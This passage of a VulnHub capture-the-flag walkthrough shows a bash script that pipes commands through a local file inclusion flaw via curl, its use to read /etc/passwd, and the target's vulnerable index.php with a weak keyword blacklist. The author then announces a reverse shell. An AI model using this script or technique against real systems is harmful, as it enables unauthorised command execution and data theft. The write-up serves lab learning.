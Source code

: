```bash
            shift 1
            CMD=$(urlencode "$@")
            ;;
        \?)
            echo "Invalid option: -$OPTARG" >&2
            ;;
    esac
done

curl -s \
     "http://$HOST/?cmd=$CMD&file=$ACCESS" \
| sed -nr '/<pre>/,/<\/pre>/p;/<\/pre>/q' \
| sed -e 's/.*<pre>//g' -e 's/<\/pre>.*//g' \
| sed '$d'
```

Let's give it a shot.

```
# ./cmd.sh -e "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
...
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
evilscience:x:1000:1000:evilscience,,,:/home/evilscience:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
```

Not the PHP code I imagine but close.

<div class="filename"><span>index.php</span></div>
```php
<?php
    $file = $_GET["file"];

    $file = str_ireplace("etc","",$file);
    $file = str_ireplace("php:","",$file);
    $file = str_ireplace("expect:","",$file);
    $file = str_ireplace("data:","",$file);
    $file = str_ireplace("proc","",$file);
    $file = str_ireplace("home","",$file);
    $file = str_ireplace("opt","",$file);

if ($file == "/var/log/auth.log") {
    header("location: index.php");
} else {
    include($file);
}
    include($file);
?>
```

Awesome. Now that I can execute remote commands, it's reverse shell time. I always like my reverse shell in Perl whenever it's available on the target system.


[1]: https://www.vulnhub.com/entry/the-ether-evilscience-v101,212/
[2]: https://securityshards.wordpress.com/
[3]: https://www.vulnhub.com/
[4]: https://httpd.apache.org/docs/2.4/mod/core.html#documentroot
[5]: https://github.com/danielmiessler/SecLists